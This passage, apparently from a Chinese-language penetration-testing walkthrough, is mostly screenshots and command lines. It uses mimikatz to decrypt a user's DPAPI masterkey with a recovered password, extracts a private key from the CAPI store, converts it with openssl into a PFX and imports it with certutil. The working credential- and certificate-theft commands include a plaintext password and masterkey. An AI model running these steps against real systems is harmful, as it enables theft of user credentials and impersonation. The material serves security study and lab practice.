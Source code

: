 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXSic6ciacRaiablR0ar5Ymc2NKmZV3gxf6jVdjuMxaf1ECQdtpRh3rlMHQ/640?wx_fmt=png)需要找到 masterkey...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpX5pusU9wdEhRQOQPr9qKpMxZJs5LAytC7hP7TttB86wQvtII4uQrI3g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXiacic5lfGAwO6AWibd0XWEo3IOz4sBdvy4iaDMgYKibZGguMctCKYsaXNfg/640?wx_fmt=png)

```
.\mimikatz.exe "dpapi::masterkey /in:C:\users\tolu\AppData\Roaming\Microsoft\Protect\S-1-5-21-3107372852-1132949149-763516304-1011\2f452fc5-c6d2-4706-a4f7-1cd6b891c017 /password:!zaq1234567890pl!99" "exit"
```

这里获得了 key 和 sha1，两者都可以利用，用其一即可...

第三步：解密密匙

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXaUsP5PA7Jmm3UfZZjdGCve2yUxCdtwDKu1UibG8yeGaiakslFgVrM5aQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXjuKicMAibvrcic0FP5B2wyCXchampIUYZF6hiajtREPhUoTJzZ2Jpthib9Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXzxqAicYc5jAUdIKYK1FWRqiaIicpiag2JQsmIAI9vTd3YmFZC8nIM7Iiaew/640?wx_fmt=png)

```
.\mimikatz.exe "dpapi::capi /in:C:\users\tolu\AppData\Roaming\Microsoft\Crypto\rsa\S-1-5-21-3107372852-1132949149-763516304-1011\307da0c2172e73b4af3e45a97ef0755b_86f90bf3-9d4c-47b0-bc79-380521b14c85 /masterkey:8ece5985210c26ecf3dd9c53a38fc58478100ccb" "exit"
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXdicrtC1dIpBYK5DDxZXK2VARrN0Vt8Fmy3fPQXuoU405xkicAW3MNCSw/640?wx_fmt=png)

利用 dpapi::capi 在文件中获得了私钥，并通过 smb 共享文件到本地...

第四步：建立正确的 PFX

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXjZcW6Huk8ibecvNpibNxiclAB52LqzRws6vnwhbb8QCwb125yLqibiaRHUQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXicl3iaNgtbNqv8yhAAY5xJvOrz9ywl2N7F8vKaAkly38SdCV56GWdRFg/640?wx_fmt=png)

```
openssl x509 -inform DER -outform PEM -in 91EF5D08D1F7C60AA0E4CEE73E050639A6692F29.der -out public.pem
openssl rsa -inform PVK -outform PEM -in dpapi_exchange_capi_0_e65e6804-f9cd-4a35-b3c9-c3a72a162e4d.keyx.rsa.pvk -out private.pem
openssl pkcs12 -in public.pem -inkey private.pem -password pass:mimikatz -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

利用 OpenSSL1 版本建立 PFX

第五步：安装 PFX

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KO5w5PP77QvqK1esfc6stpXyXN270ib1wgORGIqJS6sDJnttzn6BfBLy4PNPk71ZapajESZCYK0h1w/640?wx_fmt=png)

```
certutil -user -p mimikatz -importpfx cert.pfx NoChain,NoRoot
```
